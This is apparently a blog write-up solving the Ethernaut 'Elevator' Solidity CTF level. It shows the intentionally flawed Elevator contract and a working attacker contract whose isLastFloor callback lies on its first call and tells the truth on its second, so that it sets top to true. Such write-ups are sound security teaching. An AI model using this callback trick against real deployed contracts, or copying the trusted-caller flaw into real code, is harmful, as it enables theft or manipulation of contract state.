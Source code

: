 ```yaml
---
title: Ethernaut - Elevator - Solution
date: '2024-05-08'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Elevator CTF
---
```


# Ethernaut - Elevator - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## Solution

The goal of this level is to set `top` to `true`.

To achieve this, we need to ensure our attacker/building contract lies about the fact that the elevator reached the top floor when `isLastFloor()` is called the first time (so that we enter the `if` statement), but tells the truth when called the second time (so that we set `top` to `true`).

So, to complete the level, we can simply deploy the below attacker/building contract and call `goTo(42)`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract ElevatorAttacker {
    IElevator public immutable VICTIM;
    uint256 public constant TOP_FLOOR = 42;

    bool public tellTheTruth;

    constructor(address victim) {
        VICTIM = IElevator(victim);
    }

    function goTo(uint256 floor) external {
        VICTIM.goTo(floor);
    }

    function isLastFloor(uint256 floor) external returns (bool) {
        if (floor == TOP_FLOOR) {
            // When the top is reached, lie when asked the first time but tell the truth when asked the second time
            if (tellTheTruth == false) {
                tellTheTruth = true;
                return false;
            } else {
                return true;
            }
        } else {
            // If the top is not reached, always tell the truth
            return false;
        }
    }
}
```
